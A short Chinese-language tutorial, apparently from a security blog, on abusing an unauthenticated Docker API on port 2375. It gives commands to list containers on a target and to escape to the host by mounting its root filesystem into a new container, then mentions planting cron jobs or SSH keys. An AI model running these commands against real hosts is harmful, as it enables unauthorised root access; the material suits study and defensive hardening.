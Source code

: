 环境搭建

将 docker 守护进程监听在 0.0.0.0

```php
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
```

![](assets/1703484795-6de2d9bcf2c20ec10720bb854d7e7a12.png)

能做什么?

列出容器信息

```php
curl http://<target>:2375/containers/json
```

查看容器

```php
docker -H tcp://<target>:2375 ps -a
```

如何逃逸?  
这里介绍两种方法--其本质都是创建一个拥有特权并且挂载宿主机/目录的容器

1.新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。

```php
docker -H tcp://127.0.0.1:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

接下来的操作就十分简单了,这里不多赘述,我们可以写计划任务,公私钥等等

![](assets/1703484795-b5b153308aed4f5e2e0b387c85cd39ce.png)

